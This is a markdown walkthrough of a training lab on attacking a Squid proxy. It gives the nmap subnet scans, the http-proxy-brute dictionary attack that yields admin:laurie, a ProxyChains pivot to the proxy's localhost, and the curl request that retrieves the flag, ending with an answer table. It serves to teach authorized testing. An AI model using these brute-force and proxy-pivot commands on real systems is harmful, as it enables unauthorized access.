







# Squid Recon: Dictionary Attack — Detailed Walkthrough

## 📌 Lab Overview

**Lab:** Squid Recon: Dictionary Attack  
**Category:** Network Recon: Proxy Servers  
**Difficulty:** Beginner  
**Estimated Time:** 30 minutes

This lab focuses on reconnaissance of a **Squid proxy server**. The main objectives are:

1. Identify the target machine and Squid proxy.
2. Perform a dictionary attack against Squid authentication.
3. Configure ProxyChains to use the authenticated Squid proxy.
4. Scan the proxy server's localhost through Squid.
5. Identify the locally running Apache service.
6. Retrieve the flag from the local web server through the proxy.

> **Lab note:** IP addresses can differ between lab instances. Always use the IP addresses assigned to your current lab.

---

## 🧠 What is Squid?

**Squid** is a proxy server. A proxy acts as an intermediary between a client and another server.

In this lab, the basic communication path is:

```text
Kali Machine
     |
     | HTTP Proxy
     v
Squid Proxy
192.132.1.3:3128
     |
     | Request to localhost
     v
Apache Web Server
127.0.0.1:1996
```

The interesting part of this lab is that the Apache service is running locally on the proxy server. We use the Squid proxy to reach that service.

---

# 1. Identify the Kali Network Configuration

Start by checking the network interfaces:

```bash
ip a
```

### What to look for

The lab machine has:

```text
eth0 → 10.1.0.5/16
eth1 → 192.132.1.2/24
```

The important interface for this lab is `eth1`.

```text
eth1
inet 192.132.1.2/24
```

From the `192.132.1.2/24` address, the lab's target addressing pattern gives us:

```text
Kali   → 192.132.1.2
Target → 192.132.1.3
Gateway → 192.132.1.1
```

The lab specifically instructs us not to attack the gateway.

### 📷 Screenshot

<!-- IMAGE: ip_a(4).png -->


---

# 2. Scan the Local Lab Network

Now perform service discovery against the lab subnet:

```bash
nmap -sS -sV 192.132.1.0/24
```

### Command explanation

| Option | Meaning |
|---|---|
| `nmap` | Network scanning tool |
| `-sS` | TCP SYN scan |
| `-sV` | Service/version detection |
| `192.132.1.0/24` | Scan the lab subnet |

The scan identifies three active systems.

### Gateway — `192.132.1.1`

The gateway has:

```text
22/tcp  open  ssh
80/tcp  filtered  http
443/tcp filtered  https
```

Do not attack the gateway in this lab.

### Target — `192.132.1.3`

The important result is:

```text
3128/tcp open http-proxy Squid http proxy 3.5.12
```

This tells us that **Squid is listening on TCP port 3128**.

### Kali — `192.132.1.2`

This is our own lab machine.

### 📷 Screenshot

<!-- IMAGE: nmap-sS-sV(1).png -->


---

# 3. Find the Squid Username and Password

We now know:

```text
Target: 192.132.1.3
Squid:  3128/tcp
```

The lab provides Nmap wordlists for usernames and passwords:

```text
/usr/share/nmap/nselib/data/usernames.lst
/usr/share/nmap/nselib/data/passwords.lst
```

Use the Nmap NSE script:

```bash
nmap --script http-proxy-brute -p3128 192.132.1.3
```

### What does `http-proxy-brute` do?

This NSE script attempts authentication against an HTTP proxy using username/password combinations from its wordlists.

The relevant parts are:

```text
--script http-proxy-brute
```

Runs the HTTP proxy brute-force NSE script.

```text
-p3128
```

Scans only TCP port 3128.

```text
192.132.1.3
```

Specifies the Squid target.

### Result

The scan identifies:

```text
admin:laurie - Valid credentials
```

Therefore:

```text
Username: admin
Password: laurie
```

### 📷 Screenshot

<!-- IMAGE: username_password(1).png -->


---

# 4. Understand the Proxy Configuration

Before scanning the services behind the proxy, we need to configure **ProxyChains**.

First inspect the configuration:

```bash
cat /etc/proxychains.conf
```

or:

```bash
tail -10 /etc/proxychains.conf
```

The default configuration contains a SOCKS proxy entry:

```text
socks4 127.0.0.1 9050
```

This is commonly associated with a local Tor SOCKS proxy.

### 📷 Screenshot

<!-- IMAGE: proxychainconfig.png -->


---

# 5. Replace the ProxyChains Proxy with Squid

We need ProxyChains to use the Squid proxy discovered earlier.

Edit the configuration:

```bash
nano /etc/proxychains.conf
```

At the bottom, under `[ProxyList]`, comment out:

```text
socks4 127.0.0.1 9050
```

and add:

```text
http 192.132.1.3 3128 admin laurie
```

The final configuration should look similar to:

```text
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
http 192.132.1.3 3128 admin laurie
```

### Why do we do this?

We want the traffic generated by ProxyChains to follow this path:

```text
Kali
  |
  | ProxyChains
  v
Squid
192.132.1.3:3128
  |
  | authenticated request
  v
Target's localhost
127.0.0.1
```

### 📷 Screenshot

<!-- IMAGE: proxychainconfig_changed.png -->


---

# 6. Scan the Proxy Server's Localhost

Now we can scan `127.0.0.1` through the Squid proxy:

```bash
proxychains nmap -sV -sT -p- 127.0.0.1
```

### Command explanation

| Option | Meaning |
|---|---|
| `proxychains` | Sends supported connections through the configured proxy |
| `nmap` | Network scanner |
| `-sV` | Service/version detection |
| `-sT` | TCP connect scan |
| `-p-` | Scan all TCP ports |
| `127.0.0.1` | Localhost from the proxy's point of view |

This is the key idea of the lab.

We are asking Squid to connect to:

```text
127.0.0.1
```

From the Squid server's point of view, `127.0.0.1` refers to **the Squid server itself**, not our Kali machine.

### Result

The scan identifies:

```text
1996/tcp open  http       Apache httpd 2.4.18 ((Ubuntu))
3128/tcp open  http-proxy Squid http proxy 3.5.12
```

Therefore, Apache is listening locally on:

```text
TCP 1996
```

### 📷 Screenshot

<!-- IMAGE: proxychainnmap.png -->


---

# 7. Retrieve the Flag

Now that we know:

```text
Squid:
192.132.1.3:3128

Credentials:
admin:laurie

Apache:
127.0.0.1:1996
```

Use `curl` with the Squid proxy:

```bash
curl -x admin:laurie@192.132.1.3:3128 127.0.0.1:1996
```

### Command explanation

```text
curl
```

Makes the HTTP request.

```text
-x
```

Specifies the proxy to use.

```text
admin:laurie@192.132.1.3:3128
```

Provides the Squid username, password, IP address, and port.

```text
127.0.0.1:1996
```

Requests the Apache web server running locally on the proxy server.

### Result

The server returns:

```text
9fd80e956936a8f0a7c0b756d7aef9b9
```

### 📷 Screenshot

<!-- IMAGE: flag(1).png -->


---

# 8. Alternative Method — ProxyChains + curl

Because ProxyChains is already configured to use Squid, the web server can also be accessed with:

```bash
proxychains curl 127.0.0.1:1996
```

This follows the same basic path:

```text
Kali
  |
  | ProxyChains
  v
192.132.1.3:3128
  |
  | Squid authentication
  v
127.0.0.1:1996
  |
  v
Apache
  |
  v
Flag
```

---

# 🧩 Complete Attack/Recon Flow

The complete workflow can be summarized as:

```text
                 Squid Recon
                     |
                     v
              Check IP address
                  ip a
                     |
                     v
          Scan lab subnet with Nmap
       nmap -sS -sV 192.132.1.0/24
                     |
                     v
          Discover Squid on :3128
                     |
                     v
       Run http-proxy-brute NSE script
                     |
                     v
              admin:laurie
                     |
                     v
          Configure ProxyChains
                     |
                     v
      Scan 127.0.0.1 through Squid
                     |
                     v
             Apache found :1996
                     |
                     v
       curl through authenticated Squid
                     |
                     v
                  FLAG
```

---

# 📝 Important Commands Used

### Check network interfaces

```bash
ip a
```

### Discover hosts and services

```bash
nmap -sS -sV 192.132.1.0/24
```

### Brute-force Squid authentication

```bash
nmap --script http-proxy-brute -p3128 192.132.1.3
```

### View ProxyChains configuration

```bash
tail -10 /etc/proxychains.conf
```

### Scan localhost through Squid

```bash
proxychains nmap -sV -sT -p- 127.0.0.1
```

### Retrieve the flag through Squid

```bash
curl -x admin:laurie@192.132.1.3:3128 127.0.0.1:1996
```

### Alternative flag retrieval

```bash
proxychains curl 127.0.0.1:1996
```

---

# 🎯 Lab Answers

| Question | Answer |
|---|---|
| Squid username | `admin` |
| Squid password | `laurie` |
| Squid port | `3128` |
| Apache port | `1996` |
| Flag | `9fd80e956936a8f0a7c0b756d7aef9b9` |

---

# 🧠 Key Takeaways

### 1. Identify the proxy

Nmap service detection showed:

```text
3128/tcp open http-proxy Squid http proxy 3.5.12
```

### 2. Proxy authentication matters

The Squid proxy required valid credentials:

```text
admin:laurie
```

### 3. ProxyChains changes the connection path

Instead of connecting directly:

```text
Kali → Target
```

the traffic was routed as:

```text
Kali → Squid → Target's localhost
```

### 4. `127.0.0.1` depends on where the connection originates

When Squid connects to `127.0.0.1`, it refers to the **Squid server's localhost**.

That is the central concept demonstrated by this lab.

### 5. Don't blindly copy lab IP addresses

The provided walkthrough uses a different example IP address. Your running lab instance used:

```text
192.132.1.3
```

Always verify the current lab's addressing before running commands.

---

## 🏁 Lab Status

**Status: Completed ✅**

The lab demonstrated:

- Network discovery
- Squid proxy identification
- Proxy authentication testing
- Dictionary attacks
- ProxyChains configuration
- Proxy-based service enumeration
- Localhost service discovery
- HTTP requests through an authenticated proxy
